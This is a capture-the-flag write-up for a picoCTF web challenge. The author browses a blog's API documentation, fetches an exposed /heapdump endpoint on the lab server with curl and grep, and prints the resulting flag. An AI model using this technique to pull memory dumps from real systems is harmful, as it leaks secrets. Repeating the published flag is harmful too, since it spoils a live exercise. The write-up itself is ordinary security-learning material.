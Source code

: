 # URL
https://play.picoctf.org/practice/challenge/476?category=1&page=1
# Challenge
Welcome to the challenge! In this challenge, you will explore a web application and find an endpoint that exposes a file containing a hidden flag.
The application is a simple blog website where you can read articles about various topics, including an article about API Documentation. Your goal is to explore the application and find the endpoint that generates files holding the server’s memory, where a secret flag is hidden.
The website is running picoCTF News.
# Method of solving
* First, I decided to play around with the website, Ctrl+U, Inspect, etc. This led me to eventually click the #API_Documentation that led me to this:
* This page is the "detailed overview of the available API endpoints for managing and retrieving news posts". Hmmm. That feels super insecure.
* Exploring different API's, the one that stuck out to me was the /heapdump, as the hints refer to some "dumping"
  ```
  curl -X 'GET' \
  'http://verbal-sleep.picoctf.net:49588/heapdump' \
  -H 'accept: */*'
  ```
  * This command allowed me to get the heapdump; however, it contained too much data, so I piped it, used grep specifically to locate picoCTF{} flag
  ```
  curl -X 'GET' \
  'http://verbal-sleep.picoctf.net:49588/heapdump' \
  -H 'accept: */*' | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0 8993k    0  1056    0     0    394      0  6:29:34  0:00:02  6:29:32   394picoCTF{Pat!3nt_15_Th3_K3y_63fa652c}
  ```
  * Thats the flag! picoCTF{Pat!3nt_15_Th3_K3y_63fa652c}
